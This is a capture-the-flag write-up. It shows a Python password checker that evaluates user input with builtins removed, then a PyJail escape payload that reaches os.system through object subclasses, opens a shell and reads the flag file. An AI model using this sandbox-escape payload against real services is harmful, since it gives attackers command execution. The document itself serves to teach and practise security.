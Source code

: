 # Bonus: The Revenge of Checkpass 1
> Last year (in an unrelated contest), I made a Python password checker that had way too many solutions. To be fair, it was on me for using eval without sanitizing input or anything, but like, cmon, can we not just trust people nowadays? What happened to the days of leaving your front door unlocked?

> Anyways, I made it completely foolproof this time: no flag variable, no more printing, heck, no builtins at all!

> Surely it's unbreakable now…right?

> This problem was inspired by an online judge platform that shall not be named.

## About the Challenge
We were givena a `zip` file that contain a python script. Here is the content of the script

```python
#!/usr/local/bin/python
# -*- coding: utf-8 -*-

def main():
  password = "the password can contain non-ascii charactérs :)"
  inp = input("Enter a Python list: ")
  lis = eval(inp, {'__builtins__': None}, None)
  if type(lis) != list:
    print("That's not a list")
    return
  for i in lis:
    if not isinstance(i, int):
      print("The list can only contain integers")
      return
  if lis == [ord(e) for e in password]:
    print("You are now authorized!")
    with open("flag.txt", "r") as flag:
      print(flag.read())
  else:
    print("Incorrect password!")

if __name__ == "__main__":
  main()
```

This code snippet prompts the user to enter a Python list as input, evaluates the input string as a Python expression, and assigns the resulting list to the variable lis, while restricting access to built-in functions and variables for security purposes.

## How to Solve?
Im using PyJail payload to breakout from the sandbox. Here is the payload I used

```
().__class__.__base__.__subclasses__()[141].__init__.__globals__["system"]("sh")
```


[Image extracted text: Enter
Python
list:
()
class_
base_
subclasses_
()[141]
init_
globals__["system" ]("sh")
ls
flag.txt
run
cat flag.txt
ctf{python_sundbox_brzukout_Ifsbca}]


```
ctf{pyth0n_s4ndb0x_br34k0ut_1f8bca}
```